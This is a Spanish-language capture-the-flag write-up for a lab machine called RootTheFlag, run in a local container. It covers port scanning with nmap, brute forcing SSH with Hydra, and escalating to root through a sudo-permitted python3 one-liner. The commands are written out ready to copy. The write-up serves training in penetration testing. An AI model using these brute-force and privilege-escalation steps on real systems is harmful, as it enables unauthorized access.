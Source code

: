 # Resolución de Máquina RootTheFlag de RootAccES

## Instalación

Si todavía no se han unido, el enlace al grupo de Telegram es https://lnkd.in/d-rsKYj3

En el canal Proyecto: RootTheFlag podrás encontrar el zip RootTheFlag01.zip

![root_the_flag](img/root_the_flag.png)
![zip](img/zip.png)

Tendrás que descargarlo en tu máquina atacante e inicializarla de la siguiente manera:

Descargar y ubicarlo en un directorio de tu preferencia

![descarga](img/descarga.png)

Descomprimir el archivo con unzip 

```bash
unzip RootTheFlag01.zip
```

![descomprimir](img/descomprimir.png)

Inicializar el contenedor
```bash
sudo bash script.sh nombrearchivo.tar
```

![inicializar](img/inicializar.png)

Se te mostrará una IP resultante de la máquina víctima inicializada

## Nmap

Empezamos con usando nmap para descubrir puertos abiertos

```bash
sudo nmap -p- -sS -sCV 172.17.0.2 --min-rate 5000 
```

Se logra visualizar que se encontraron los puertos 22 y 80 abiertos

![nmap](img/nmap.png)

El único indicio encontrado en la web (puerto 80) es el nombre "beatriz".

![web](img/web.png)

No hay nada más en el código de la página web

![codigo_web](img/codigo_web.png)

## Hydra

Hacemos uso Hydra para buscar un password por fuerza bruta por el puerto 22 con el usuario beatriz y el diccionario rockyou.txt (recuerda colocar la ubicación donde tengas este diccionario, en mi caso yo tengo un extracto de las 5000 primeras líneas del rockyou.txt original en mi carpeta /home/kali, llamado rockyou_5000.txt).

```bash
hydra -l beatriz -P /home/kali/rockyou_5000.txt 172.17.0.2 ssh -f -V -t 64
```

![hydra](img/hydra.png)

Encontramos que el usuario "beatriz" es válido con el password "chocolate"

![hydra_resultado](img/hydra_resultado.png)

## SSH

Procedemos a conectarnos por ssh

```bash
ssh beatriz@172.17.0.2
```

![ssh](img/ssh.png)

## Escalamiento de Privilegios

Ahora consultaremos si podemos ejecutar algún binario como usuario root

```bash
sudo -l
```

![sudol](img/sudol.png)

Se puede observar que el usuario beatriz puede ejecutar el binario python3 como root


## Searchbins

Una herramienta útil para encontrar como escalar privilegios es searchbins, les dejo el repositorio para que lo instalen fácilmente https://github.com/r1vs3c/searchbins
Esta herramienta básicamente es https://gtfobins.github.io/ pero desde tu terminal.

Ejecutamos
```bash
searchbins -b python -f sudo
```

Y nos aparece el comando para escalar privilegios a root

![searchbins](img/searchbins.png)

Lo modificaremos un poco antes de usarlo. Es recomendable colocar toda la ruta del binario, tal cuál nos mostró el sudo -l

```bash
sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```
![root](img/root.png)

Ya somos root

## Captura de Flag

Nos dirigimos a la carpeta /root y leemos el archivo flag.txt

Tomamos la parte que está entre llaves, que por su forma parece estar en base64 y lo desencriptamos

```bash
echo aHR0cHM6Ly9yb290YWNjLmVzCg== | base64 -d
```

![flag_final](img/flag_final.png)

Este es mi primer writeup, pero no será el último!!! 

Happy Hacking!!!

---p4ntr0x---